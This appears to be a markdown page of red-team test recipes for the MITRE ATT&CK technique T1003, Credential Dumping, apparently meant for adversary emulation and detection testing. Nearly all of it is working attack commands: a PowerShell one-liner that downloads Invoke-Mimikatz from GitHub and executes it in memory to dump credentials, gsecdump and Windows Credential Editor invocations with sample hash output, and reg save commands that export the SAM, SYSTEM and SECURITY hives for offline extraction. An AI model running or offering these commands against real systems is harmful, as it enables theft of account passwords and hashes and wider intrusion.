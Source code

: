 # Credential Dumping

MITRE ATT&CK Technique: [T1003](https://attack.mitre.org/wiki/Technique/T1003)


## Powershell Mimikatz

Input:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

## Gsecdump

[Gsecdump](https://www.truesec.se/sakerhet/verktyg/saakerhet/gsecdump_v2.0b5)

Input:

    gsecdump -a

## Windows Credential Editor

[Windows Credential Editor](http://www.ampliasecurity.com/research/windows-credentials-editor/)

Input:

    wce -o output.txt

Output:

    C:\>wce -o output.txt
    WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    C:\>type output.txt
    test:AMPLIALABS:01020304050607080900010203040506:98971234567865019812734576890102
    C:\>

## via Registry
Local SAM (sam & system), cached credentials (system & security) and LSA secrets (system & security) can be enumerated via three registry keys.

Input:
    reg save HKLM\sam sam 
    reg save HKLM\system system
    reg save HKLM\security security
  
Output:
    C:\>reg save HKLM\sam sam
    The operation completed successfully.

These hives can be prcossed locally using creddump7 (https://github.com/Neohapsis/creddump7)

